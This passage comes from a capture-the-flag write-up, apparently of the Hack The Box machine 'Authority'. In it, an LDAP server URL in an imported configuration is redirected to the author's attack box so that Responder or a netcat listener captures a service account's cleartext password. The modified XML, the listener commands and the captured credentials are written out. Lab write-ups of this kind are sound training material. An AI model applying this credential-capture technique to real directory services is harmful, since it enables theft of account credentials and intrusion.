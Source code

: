 ```xml
<setting key="ldap.serverUrls" modifyTime="2022-08-11T01:46:23Z" profile="default" syntax="STRING_ARRAY" syntaxVersion="0">
    <label>LDAP ⇨ LDAP Directories ⇨ default ⇨ Connection ⇨ LDAP URLs</label>
    <value>ldaps://authority.authority.htb:636</value>
</setting>
...snip...
```

With the ability to import configurations on the website, altering the LDAP server URL to my own (hosted using responder) might allow me to capture LDAP credentials when other services attempt to authenticate to LDAP.

I modified the LDAP server URL to `ldap://<tun0>:IP`, redirecting it to my attack box.

```xml
...snip...
<setting key="ldap.serverUrls" modifyTime="2022-08-11T01:46:23Z" profile="default" syntax="STRING_ARRAY" syntaxVersion="0">
    <label>LDAP ⇨ LDAP Directories ⇨ default ⇨ Connection ⇨ LDAP URLs</label>
    <value>ldap://10.10.14.132:389</value>
</setting>
...snip...
````

When I update the configuration and run Responder on my attack box, it successfully captures the cleartext LDAP credentials.

```bash
❯ _ responder -I tun0 -v
...snip...
    LDAP server                [ON]
...snip...
[+] Listening for events...

[LDAP] Attempting to parse an old simple Bind request.
[LDAP] Cleartext Client   : 10.10.11.222
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
```

This works even when starting a netcat listener on port 389 (ldap)

```bash
❯ nc -nlvp 389
listening on [any] 389 ...
connect to [10.10.14.132] from (UNKNOWN) [10.10.11.222] 59434
0Y`T;CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb�lDaP_1n_th3_cle4r!
```

### Shell as svc_ldap

With these new credentials, I have read access to the `Department Shares` share. However, the shares only has empty directories in it.
Using the newly acquired credentials, I have read access to the `Department Shares` share. However, after spidering, it seems the share only contains empty directories.
